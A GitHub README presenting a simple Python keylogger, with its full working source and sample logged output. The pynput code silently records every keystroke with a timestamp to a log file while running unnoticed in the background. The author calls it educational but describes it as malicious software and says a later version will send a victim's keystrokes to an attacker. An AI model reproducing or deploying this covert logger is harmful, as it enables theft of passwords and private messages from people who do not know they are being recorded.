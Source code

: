 # Keylogger

Simple Keylogger software

![](/Images/KeyLog_Image_file.png)


### Description of the Keylogger

A keylogger is used as malicious software used to record all the keystrokes in a user in hopes of using all the information recorded in the "KeyLog.txt"(or named any kind) file, for malicious intent
This keylogger software is made to get a copy of each keystroke of a user. The keystroke format is shown as a ".txt" file formatted as (TIME/DATE:KEYSTROKE).
This software is made for educational purposes only! Use it at your discretion.

*This software won't work in an attack because the computer antivirus already has a signature for this kind of code*


This is the keylogger file and code:
- [Keylogger](https://github.com/Yasha-Santos/Keylogger/blob/main/Keylogger.py)

```
"""
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
Author: Yaser Kassem

This is a simple keylogger program, this was made 
for educational purposes only!
hello
This is to show that even small code software have
great power
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
"""

# Before we start writting the code we must import the following tools in order to be able to perform our keylogigng
import pynput
import logging
from pynput.keyboard import Key, Listener

# Here you can add the directory you wish to save your log file 
log_dir = r"C:/Your/Wished/Directory"

# This log file will have all the keystrokes with the time it was typed, in the format as given below (TIME:MESSAGE)
logging.basicConfig(filename= (log_dir + r"/keyLog.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

# In this function it will take each key as a parameter, then this information will
# be logged in the "keyLog.txt"
def on_press(key):
    logging.info(str(key))

# Creating a listener instance and define the on-press method and join it
# with the main program thread
with Listener(on_press=on_press) as listener:
    listener.join()
```
*This code above contains comments on how it works, minimal explanation will be provided*

Basically what this code does is that it saves all the keystrokes of a user in a running environment, meaning that it is not a one-time use only as it uses a thread to maintain its "life", meaning that when this file is executed a user won't notice a difference but in the background, it will be using a single process to capture every possible keystrokes or combination.

This is a small example of what the keylogger will record.
- [Keylog.txt (Example file)](https://github.com/Yasha-Santos/Keylogger/blob/main/KeyLog.txt)

```
2024-03-07 20:54:38,074: 'h'
2024-03-07 20:54:38,244: 'e'
2024-03-07 20:54:38,883: 'l'
2024-03-07 20:54:39,029: 'l'
2024-03-07 20:54:39,314: 'o'
2024-03-07 20:55:06,618: Key.space
2024-03-07 20:55:06,815: 'w'
2024-03-07 20:55:07,999: 'o'
2024-03-07 20:55:08,227: 'r'
2024-03-07 20:55:09,462: 'l'
2024-03-07 20:55:09,767: 'd'
```

The keylogger can store more information in this file, as long as the user is writing this software will record every single keystroke. The file above is only an example of what the output will look like.


*This code is still being worked on. In the future this code will send all the keystrokes from the "Vulnerable user" to the "Malicious user".*

